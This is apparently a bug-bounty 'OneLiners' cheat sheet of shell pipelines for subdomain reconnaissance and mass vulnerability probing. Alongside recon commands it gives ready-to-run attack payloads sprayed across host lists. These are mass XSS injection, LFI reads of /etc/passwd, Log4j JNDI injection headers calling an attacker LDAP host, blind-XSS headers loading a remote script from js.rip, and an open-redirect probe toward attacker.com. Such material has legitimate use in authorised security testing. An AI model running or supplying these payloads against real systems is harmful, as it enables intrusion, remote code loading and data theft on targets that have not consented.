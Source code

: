```yaml
---
title: OneLiners
icon: fas fa-info-circle
order: 3
---
```


### Mass XSS via wayback machine
+ ``gau http://target.com | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'``<br>
+ ``gau google.com | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'``


### Mass IPs listing Via Shodan
+ ```shodan search --limit 1000 'http.title:"Dashboard [Jenkins]"' | awk  '{print $1,":"$2}' | sed 's/ //' | httpx -silent | tee /root/Desktop/shodan.txt```


### Subdomain from crt.sh
+ ```curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | tee /root/Desktop/crt.txt```

### wordpress mysql 
+ ```sublist3r -d target.com | httpx -silent -path "/wp-content/mysql.sql" -mc 200 -t 250 -ports 80,443,8080,8443```

### Get all urls from sitemap
+ ``curl -s https://target.com/sitemap.xml | xmllint --format - | grep -e 'loc' | sed -r 's|</?loc>||g'``

### Waybackurls Validators
+ ``waybackurls http://bugcrowd.com | grep "url" | xargs -n 1 curl -s -o /dev/null -w "%{http_code} > %{url_effective}\n" | sort``

### Extract all endpoints from js file
+ ``cat files.txt | grep -aoP "(?<=(\"|\'|`))\/[a-zA-Z0-9?&=\/-#.](?=(\"|\'|`))" | sort -u | tee output.txt``

### OneLiner  http://rapiddns.io Curl for Doamin Recon :
+ ``curl -s "https://rapiddns.io/subdomain/target.com?full=1#result" | grep "<td><a" | cut -d '"' -f 2 | cut -d '/' -f3  | sed 's/?t=cname//g' | sed 's/#result//g' | sed 's/\.$//' | sort -u``

### Check Mass CNAME records
+ ``cat live-domains.txt | while read domains;do dig $domains;done | grep CNAME``

### Mass LFI
+ ``cat hosts | httpx -path ///////../../../etc/passwd -mc 200 -match-string 'root:x:'``

### Open Redirect
+ ``export LHOST="attacker.com"; gau target.com | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'``

### Find JavaScript Files
+ ``assetfinder --subs-only HOST | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" | sed -e 's, 'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done``

### Get Subdomain from https://riddler.io
+ ``curl -s "https://riddler.io/search/exportcsv?q=pld:target.com" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u ``

### Get subdomain domain from web archive
+ ``curl -s "http://web.archive.org/cdx/search/cdx?url=*.target.com/*&output=text&fl=original&collapse=urlkey" | sed -e 's_https*://__' -e "s/\/.*//" | sort -u
``
### Get subdomain from certspotter
+ ``curl -s "https://certspotter.com/api/v1/issuances?domain=HOST&include_subdomains=true&expand=dns_names" | jq .[].dns_names | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u ``

### Get subdomain from securitytrails
+ ``curl -s "https://securitytrails.com/list/apex_domain/HOST" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | grep ".HOST" | sort -u``

### Scan juicy ports only
+ ``nmap -sV -p 21,22,80,25,465,587,1617,3000,4848,5985,8022,8080,8282,8484,\ 8585,9200,49153,49154,49202,49203 -v target.com``

### Dependency Confusion check NPM rsgistry
+ ``cat package.json | jq -r '.dependencies + .devDependencies' | cut -d : -f 1 | tr -d '"|}|{' | sort -u | tr -s "     " | sort -u | xargs -n1 -I{} echo "https://registry.npmjs.org/{}" | grep -v "@" | httpx -status-code -silent -content-length -mc 404``

### Heartbleed vulnerability
+ `` cat list.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line: safe; done ``

### Log4j via httpx 
+ `` cat targets.txt | httpx -H "X-Api-Version: \${jndi:ldap://<ip><port>}" -H "User-Agent: \${jndi:ldap://<ip><port>}" -H "Referer: \${jndi:ldap://<ip><port>}"``

### mass blind xss
+ ``cat targets.txt| httpx -H "User-Agent: \"<script src=https://js.rip/0xmaruf></script>" -H "Host: \"<script src=https://js.rip/0xmaruf></script>" -H "Referer: \"<script src=https://js.rip/0xmaruf></script>" -H "Origin: \"<script src=https://js.rip/0xmaruf></script>"
``

### Paramspider and kxss oneliners
+ ``for URL in $(</home/kali/Desktop/subdomains.txt); do (python3 paramspider.py -d "${URL}");
done``

#Merge all txt files to one txt and run it on kxss
``cat * | sort -u | tee merged.txt | kxss``
